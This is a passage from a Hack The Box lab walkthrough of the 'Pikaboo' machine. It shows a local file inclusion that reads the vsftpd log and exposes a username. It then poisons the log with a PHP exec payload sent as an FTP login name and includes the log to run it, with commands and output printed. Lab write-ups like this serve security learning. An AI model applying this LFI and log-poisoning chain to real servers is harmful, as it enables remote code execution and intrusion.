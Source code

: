 After a few iterations I came up with the above which restricts the output so we just dee something useful. The vsftpd.log file almost certainly relates to the FTP server we found on our nmap scan earlier.

Let's have a look at it:

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
<SNIP>
Thu Jul  8 17:30:50 2021 [pid 21011] CONNECT: Client "::ffff:10.10.14.6"
Thu Jul  8 17:30:50 2021 [pid 21011] FTP response: Client "::ffff:10.10.14.6", "220 (vsFTPd 3.0.3)"
Thu Jul  8 17:30:53 2021 [pid 21011] FTP command: Client "::ffff:10.10.14.6", "USER pwnmeow"
Thu Jul  8 17:30:53 2021 [pid 21011] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "331 Please specify the password."
Thu Jul  8 17:31:01 2021 [pid 21011] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "PASS <password>"
Thu Jul  8 17:31:01 2021 [pid 21010] [pwnmeow] OK LOGIN: Client "::ffff:10.10.14.6"
Thu Jul  8 17:31:01 2021 [pid 21035] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "230 Login successful."
Thu Jul  8 17:31:01 2021 [pid 21035] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "SYST"
Thu Jul  8 17:31:01 2021 [pid 21035] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "215 UNIX Type: L8"
Thu Jul  8 17:31:03 2021 [pid 21035] [pwnmeow] FTP command: Client "::ffff:10.10.14.6", "QUIT"
Thu Jul  8 17:31:03 2021 [pid 21035] [pwnmeow] FTP response: Client "::ffff:10.10.14.6", "221 Goodbye."
```

We've retrieved the FTP log file, which reveals a username pwnmeow. After a while looking around I looked for an exploit and found [this](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-vsftpd-logs) method of file inclusion. Further info [here](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d) and [here](https://secnhack.in/ftp-log-poisoning-through-lfi/) helped me figure out the next move.

We can connect to the FTP server and use the method described to execute arbitary code. First lets test our theory:

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# ftp pikaboo.htb
Connected to pikaboo.htb.
220 (vsFTPd 3.0.3)
Name (pikaboo.htb:kali): <?php exec("/bin/bash -c 'ping -c 4 10.10.14.43'"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> quit
221 Goodbye.
```

This has put our code in to the FTP log file, now we need to read the log to cause it to be executed:

```sh
┌──(root💀kali)-[~/htb/pikaboo]
└─# curl http://pikaboo.htb/admin../admin_staging/index.php?page=/var/log/vsftpd.log
```
